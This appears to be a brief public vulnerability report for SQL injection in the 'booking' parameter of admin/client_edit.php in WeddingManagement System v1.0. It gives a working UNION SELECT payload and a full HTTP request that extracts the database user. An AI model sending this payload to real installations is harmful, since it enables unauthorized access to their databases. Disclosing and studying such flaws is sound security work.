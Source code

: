 # WeddingManagement System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\client_edit.php

Vulnerability location: /Wedding-Management/admin/client_edit.php?booking=, booking

[+] Payload: booking=-31%20union%20select%201,2,3,4,5,user(),7,8--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/client_edit.php?booking=-31%20union%20select%201,2,3,4,5,user(),7,8--+&user_id=31 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167982439-b3e6fd7c-1b2a-431a-8fdc-cdcb66daadc9.png)

![image](https://user-images.githubusercontent.com/54017627/167982382-5de5354d-f31e-4d0b-8aad-d11fdc573c65.png)

